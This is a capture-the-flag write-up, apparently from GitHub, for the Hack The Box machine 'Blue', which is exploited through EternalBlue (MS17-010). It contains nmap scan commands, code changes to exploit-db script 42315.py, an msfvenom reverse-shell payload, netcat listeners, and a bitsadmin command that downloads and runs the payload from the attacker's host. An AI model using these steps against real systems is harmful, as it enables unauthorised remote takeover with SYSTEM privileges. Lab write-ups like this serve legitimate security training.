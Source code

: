 # Blue

![image](https://user-images.githubusercontent.com/10210108/79369688-5e3d2280-7f1f-11ea-9975-eaf1c4591c5c.png)

## Overview

Blue is a Windows box that was vulnerable to the infamous EternalBlue exploit which was leaked by the Shadow Brokers in 2017. Using the nmap script functionality I was able to determine the box was vulnerable to CVE-2017-0144 / MS17-010, a flaw that allows attackers to execute arbitrary code on a target system by sending specially crafted messages to a SMBv1 server. An existing exploit written in python was used to get a reverse shell as 'nt authority/system'.

> Eternal blue works by exploiting multiple SMBv1 bugs that when chained together allow the attacker to write and execute shellcode to gain access to the target. More information can be found [here](https://www.sentinelone.com/blog/eternalblue-nsa-developed-exploit-just-wont-die/)

## Enumeration

**Software**

* Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)

**Port Scan**
```
nmap -vv -Pn -sT -A -p- 10.10.10.40 -oN /mnt/data/boxes/blue/_full_tcp_nmap.txt
```
    
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 445/tcp - Microsoft Windows SMB
* 49152/tcp - Microsoft Windows RPC
* 49153/tcp - Microsoft Windows RPC
* 49154/tcp - Microsoft Windows RPC
* 49155/tcp - Microsoft Windows RPC
* 49156/tcp - Microsoft Windows RPC
* 49157/tcp - Microsoft Windows RPC

**Vulnerability Scan**

```
nmap 10.10.10.40 -p 445 -script=smb-vuln*
```

![image](https://user-images.githubusercontent.com/10210108/80120412-f14a0e00-8558-11ea-8509-1e602484561e.png)

## Steps (User)

The EternalBlue exploit grants access as nt authority/system, there is no user step.

## Steps (root/system)

Running a search in searchsploit shows a few results.

![image](https://user-images.githubusercontent.com/10210108/80120831-906f0580-8559-11ea-83c2-b93d63d02fd6.png)

I went with 42315.py which required a couple modifications:

Line 36: change username to guest

```
USERNAME = 'guest'
PASSWORD = ''
```

Line 910: Modify the smb_pwn function. This specifies the source of the file to transfer (our reverse shell payload), the destination (root of C:), the name of the destination file (rshell.exe), and the location on the target box to execute rshell.exe

```
def smb_pwn(conn, arch):
    
    smbConn = conn.get_smbconnection()
    smb_send_file(smbConn, '/root/boxes/blue/rshell.exe', 'C', 'rshell.exe')
    service_exec(conn, r'cmd /c c:\\rshell.exe')
```

I generated a reverse shell payload using msfvenom and started a netcat listener (rlwrap nc -lvnp 4200)

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.8 LPORT=4200 -f exe -o rshell.exe
```

> Note: rlwrap fixes the arrow key functionality for windows reverse shells.

With the modifications complete, I ran the exploit and received a callback and shell as 'nt authority\system'

```
./42315.py 10.10.10.40 samr
```

![image](https://user-images.githubusercontent.com/10210108/80130700-0af25200-8567-11ea-9e77-fdb0630d37cd.png)

## Steps (root/system) #2

Alternatively I could have used bitsadmin to download the payload from my machine via http and excute it to create the reverse shell. I didn't have much luck with the python http server so I used apache. 

I copied the rshell.exe file created earlier to web server root

```
cp rshell.exe /var/www/html/
```

I created a netcat listener (rlwrap nc -lvnp 4200) and started the apache service.

```
systemctl start apache2.service
```

I updated 42315.py to reflect the changes needed to use bitsadmin to download and execute rshell.exe

```
def smb_pwn(conn, arch):
    
    smbConn = conn.get_smbconnection()
    service_exec(conn, r'cmd /c bitsadmin /transfer pwnage /download /priority high http://10.10.14.8/rshell.exe c:\windows\temp\rhell.exe')
    service_exec(conn, r'cmd /c c:\\windows\\temp\\rshell.exe')
```

I ran the exploit and receved a callback and shell as 'nt authority\system'
```
./42315.py 10.10.10.40 samr
```

![image](https://user-images.githubusercontent.com/10210108/80132732-1c892900-856a-11ea-9b56-87d893abe5fc.png)
